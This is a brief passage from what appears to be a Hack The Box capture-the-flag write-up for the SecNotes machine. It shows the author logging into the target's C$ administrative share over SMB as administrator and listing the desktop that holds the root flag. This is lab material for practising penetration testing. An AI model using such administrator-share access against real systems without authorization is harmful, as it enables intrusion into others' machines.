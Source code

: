 Lets try it out

{% highlight plaintext %}
root@kali:~/HTB/secnotes/www# smbclient //10.10.10.97/c$ -I 10.10.10.97 -U administrator
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\administrator's password: 
Try "help" to get a list of possible commands.
smb: \> ls Users\administrator\Desktop\
  .                                  DR        0  Sun Aug 19 18:01:17 2018
  ..                                 DR        0  Sun Aug 19 18:01:17 2018
  desktop.ini                       AHS      282  Sun Aug 19 18:01:17 2018
  Microsoft Edge.lnk                  A     1417  Sat Jun 23 00:45:06 2018
  root.txt                            A       34  Sun Aug 19 18:03:54 2018

                12978687 blocks of size 4096. 8066969 blocks available
{% endhighlight %}

There's the root flag. Do a little dance
